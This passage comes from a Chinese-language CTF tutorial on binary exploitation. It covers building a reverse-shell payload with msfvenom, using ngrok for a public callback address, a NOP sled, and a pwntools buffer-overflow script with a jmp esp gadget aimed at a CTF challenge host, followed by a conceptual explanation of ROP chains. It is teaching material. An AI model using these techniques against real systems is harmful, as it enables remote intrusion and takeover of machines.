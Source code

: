 這裡的 IP 要是 public 的，所以如果你有自己的機器最好，不然也可以用 ngrok 這個工具來暫時創建一個 tunnel，這樣就會獲得一個公開的 domain name 跟 IP 可以使用。把要連線的 IP 跟 PORT 填進去就可以獲得自己專屬的 reverse shell payload 啦！

另外要注意的是，剛用 msfvenom 的時候有做 payload encoding (`–e x86/shikata_ga_nai`)，所以 shellcode 實際執行的時候會先把自己 decode 一次，會覆寫到 shellcode 前後一些空間，所以我們通常會在 shellcode 前加一段 nop sled（就是一串 `'\x90'` 的空白 padding 而已）來避免影響到前面 return address 等等的部分。

綜合上面的步驟，我們的 exploit 就完成啦！

```python
from pwn import *

#p = process('./retcheck')
#p = remote('127.0.0.1', 9999)
p= remote('challenge.ctf.games', 32762)

nopsled = "\x90"*10
# generate your own shellcode and insert here!
sc =  b""

# 0x080492e2 : jmp esp
gadget = 0x080492e2
buf = b'A'*1044 + p32(gadget) + nopsled + sc
p.sendlineafter("What would you like to say?: ", buf)
p.interactive()
```

## rop

ROP (Return Oriented Programming) 不是在討論程式語言跟特性嗎，跟 pwn 有什麼關係？

還記得我們剛剛為什麼去找 `jmp esp` 的 gadget 嗎？因為 instruction pointer (eip rip) 指向的是下一個指令的位置，所以我們如果能在檔案中找到想要執行的指令片段，就可以讓 instruction pointer 指到這個片段的地址，進而執行相應的組語指令。

那要怎麼填充 instruction pointer 呢？在組語中，呼叫 `ret` 這個指令就會把 stack 上的下一塊記憶體內容放到 instruction pointer，所以我們如果把很多個以 `ret` 結尾的 gadget 的地址串在一起，就可以組合出一系列的指令，這樣 "return-oriented" 的 pwn 手法，就稱為 ROP chain。

還是不太懂這是如何運作的？我們用下面幾張圖看看要達成 `foo(2,1)` 的 ROP chain 跑起來的樣子：

首先，當記憶體被 overflow，當前的函數跑到 `ret` 時，等效於 `pop rip` 將 return address 裡寫的地址（`0x507070`）寫入 `rip`，此時 `rsp` 下移指到下一塊記憶體 `0x1`。
程式接下來就會從 `0x507070` 的指令開始繼續執行。第一步的 `pop rax` 會從 stack 上再拿一個值下來填到 `rax` 裡，於是 `0x1` 就會被放進 `rax`，`rsp` 下移指到 `0x2`。第二步的 `pop rdi` 同樣道理， `0x2` 會被放進 `rdi`，`rsp` 繼續下移。第三步又遇到 `ret`，於是下一個 stack 上的值放到 `rip`，第一個 gadget 執行結束，控制權回到我們的 ROP chain。

#[gadget #1](/img/posts/crystal/pwn-intro/rop-1.png)

來到第二個 gadget，第一個指令 `mov rax, rsi` 將前一步填好的 `rax` 內容複製一份到 `rsi`，再來 `pop rdx` 把 `foo()` 的記憶體位置填充到 `rdx`，最後用 `ret` 結束這個 gadget。

#[gadget #2](/img/posts/crystal/pwn-intro/rop-2.png)

這下我們需要的輸入參數都就位了，只要能呼叫 `foo()` 就成功啦。我們串接的第三個 gadget 就是用 `call rdx` 來觸發，成功達成執行 `foo(2,1)` 的目的。

#[gadget #3](/img/posts/crystal/pwn-intro/rop-3.png)

在 exploit 的時候，我們就是在利用 gadget 的串接拼湊出想要執行的組語指令，畢竟不能執行外部的 shellcode，只用自己內部的可就沒有問題啦！ROP chain 的威力之強大，我們用下一題讓你看一下。
